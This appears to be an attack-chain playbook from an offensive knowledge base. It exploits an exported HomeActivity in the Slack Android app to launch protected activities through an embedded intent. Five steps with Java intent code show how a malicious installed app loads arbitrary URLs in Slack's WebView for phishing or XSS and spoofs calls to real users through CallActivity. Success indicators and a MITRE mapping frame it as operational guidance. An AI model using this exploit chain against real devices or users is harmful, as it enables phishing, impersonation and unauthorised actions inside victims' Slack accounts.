

# Access Slack Android Protected Activities via Exported HomeActivity Embedded Intents

Multi-stage attack chain demonstrating exploitation of the Slack Android app's exported HomeActivity to bypass protections and access non-exported activities like WebViewActivity and CallActivity, leading to unauthorized actions such as loading arbitrary URLs for XSS/phishing or initiating fake calls to real users.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 5 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Android development environment (e.g., Android Studio for decompilation)
- Malicious app with intent launching capabilities

### Target Environment

- Android OS
- Slack app installed (vulnerable version)
- No specific ports or services; local app interaction

### Initial Access Requirements

- Malicious unprivileged app installed on the same device
- No credentials needed; exploits intent system
- Physical or remote access to install malicious app

## Detailed Attack Procedures

### Step 1: Analyze Exported Activity
procedure: [[procedures/Analyze-Slack-HomeActivity-for-Intent-Vulnerabilities]]

**Objective**: Decompile and examine the Slack HomeActivity to identify the vulnerability in intent handling.

**Instructions**: Use decompilation tools to inspect com.Slack.ui.HomeActivity, focusing on the onResume method and handleIntentExtras which processes 'extra_deep_link_intent' without validation.

**Expected Output**: Identification of the code path that starts arbitrary intents.

**Success Indicators**:
- Vulnerable method confirmed
- No validation on deeplinkIntent

### Step 2: Craft Inner Intent for Protected Activity
procedure: [[procedures/Craft-Embedded-Intent-for-WebViewActivity]]

**Objective**: Create a malicious inner intent targeting a protected activity like WebViewActivity to load arbitrary content.

**Instructions**: Construct the intent using [[commands/create-webview-intent]] to set class name and extras for URL and title.

```java
Intent next = new Intent(); next.setClassName("com.Slack","com.Slack.ui.WebViewActivity"); next.putExtra("extra_url","http://example.com/"); next.putExtra("extra_title","test");
```

**Expected Output**: Inner intent ready for embedding, configured to load attacker-controlled URL.

**Success Indicators**:
- Intent extras set correctly
- Targets non-exported WebViewActivity

### Step 3: Embed Inner Intent into Outer Intent
procedure: [[procedures/Embed-Intent-into-HomeActivity-and-Launch]]

**Objective**: Wrap the inner intent into an outer intent for the exported HomeActivity.

**Instructions**: Use [[commands/embed-intent-in-homeactivity]] to create the outer intent and add the inner one as extra.

```java
Intent start = new Intent(); start.setClassName("com.Slack","com.Slack.ui.HomeActivity"); start.putExtra("extra_deep_link_intent", next);
```

**Expected Output**: Outer intent prepared with embedded malicious payload.

**Success Indicators**:
- Extra_deep_link_intent populated
- Targets exported HomeActivity

### Step 4: Launch Outer Intent
procedure: [[procedures/Launch-Outer-Intent-to-Trigger-Protected-Activity]]

**Objective**: Execute the exploit by starting the outer intent from the malicious app.

**Instructions**: Call [[commands/start-activity-exploit]] to launch the chain.

```java
startActivity(start);
```

**Expected Output**: HomeActivity resumes, processes extra, and starts the protected activity.

**Success Indicators**:
- Protected activity launches
- Arbitrary URL loads or action executes

### Step 5: Exploit for Fake Calls
procedure: [[procedures/Exploit-CallActivity-for-Fake-Calls]]

**Objective**: Adapt the technique to target CallActivity for social engineering via fake calls.

**Instructions**: Craft inner intent with [[commands/create-callactivity-intent]] for spoofed details, embed, and launch as in previous steps.

```java
Intent next = new Intent("create"); next.setClassName("com.Slack","com.Slack.ui.CallActivity"); next.putExtra("EXTRA_CALL_NAME","Fake call name"); next.putExtra("EXTRA_CALLER_ID","U1RFBBPCP"); next.putExtra("EXTRA_CHANNEL_NAME","Fake channel name"); next.putExtra("EXTRA_CHANNEL_ID","D2B84FUFQ"); next.putExtra("EXTRA_USERS_TO_INVITE",new ArrayList<String>(Arrays.asList(new String[]{"U2B81JBAL"})));
```

**Expected Output**: Fake call initiates to real users with spoofed info.

**Success Indicators**:
- CallActivity starts
- Real users receive fake call

## Attack Chain Summary

### Key Achievements

1. Bypassed Android component protections via exported activity
2. Enabled XSS/phishing through arbitrary WebView loads
3. Facilitated social engineering with fake calls to contacts

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Abuse Elevation Control Mechanism]] Abuse Elevation Control Mechanism
- [[Exploit Public-Facing Application]] Exploit Public-Facing Application

### MITRE ATT&CK Tactics

- [[Privilege Escalation]] Privilege Escalation

---

*Last updated: 2023-10-01T00:00:00Z*
